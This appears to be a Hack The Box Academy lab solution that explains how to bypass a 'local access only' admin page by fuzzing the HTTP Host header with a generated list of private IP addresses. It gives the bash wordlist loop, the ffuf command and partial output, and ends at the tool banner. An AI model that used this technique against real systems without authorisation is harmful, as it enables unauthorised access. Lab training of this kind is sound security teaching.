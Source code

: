 ### "Try to use what you learned in this section to bypass the authentication check via host header manipulation and obtain the flag."

After spawning the target machine and trying to access `/admin.php`, students will notice that the webpage states "The admin area can only be accessed locally!":

![[HTB Solutions/CWEE/z. images/6b50e188ed37160a42230980d5026337_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/03a14f60a71e3071e79060b19824a61b_MD5.jpg]]

When intercepting the request and altering the `Host` header to be `localhost` or `127.0.0.1`, students will still be not able to access the admin panel, therefore, they need to create a wordlist of the private IP address range `192.168.0.0-192.168.255.255` to subsequently use it in fuzzing a valid `Host` header value:

Code: bash

```bash
for octet3 in {1..255};do
for octet4 in {1..255};do
echo "192.168.$octet3.$octet4" >> privateClassCIPs.txt
done
done
```

```
┌─[us-academy-2]─[10.10.14.212]─[htb-ac413848@htb-isi63lgnvk]─[~]
└──╼ [★]$ for octet3 in {1..255};do
> for octet4 in {1..255};do
> echo "192.168.$octet3.$octet4" >> privateClassCIPs.txt
> done
> done
```

Then, students need to use `Ffuf` to test which IP address(es) will authenticate, filtering out any response with the size 752 (as it is the response size returned for any erroneous request). Three IP addresses will authenticate successfully and bypasses the restriction/validation put forth by the web application, which are `192.168.178.82`, `192.168.178.132`, and `192.168.178.219`:

Code: shell

```shell
ffuf -u http://STMIP:STMPO/admin.php -w privateClassCIPs.txt -H "Host: FUZZ" -fs 752
```

```
┌─[us-academy-2]─[10.10.14.212]─[htb-ac413848@htb-isi63lgnvk]─[~]
└──╼ [★]$ ffuf -u http://178.62.24.63:31544/admin.php -w privateClassCIPs.txt -H "Host: FUZZ" -fs 752

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://178.62.24.63:31544/admin.php
 :: Wordlist         : FUZZ: privateClassCIPs.txt
 :: Header           : Host: FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```